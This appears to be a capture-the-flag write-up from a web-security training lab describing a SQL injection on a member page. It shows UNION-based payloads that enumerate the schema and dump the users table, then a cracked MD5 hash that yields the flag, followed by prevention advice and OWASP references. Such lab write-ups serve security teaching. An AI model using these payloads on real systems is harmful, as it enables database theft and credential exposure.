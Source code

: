# SQL INJECTION MEMBERS

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=member

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

# To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
> user_id = 5
> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

# Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
> FortyTwo
lower('FortyTwo')
> fortytwo
sh256('fortytwo')
> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> use of prepared statements (with parameterized queries) \
> use of stored procedures \
> whitelist input validation \
> escaping all user supplied input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly#readme)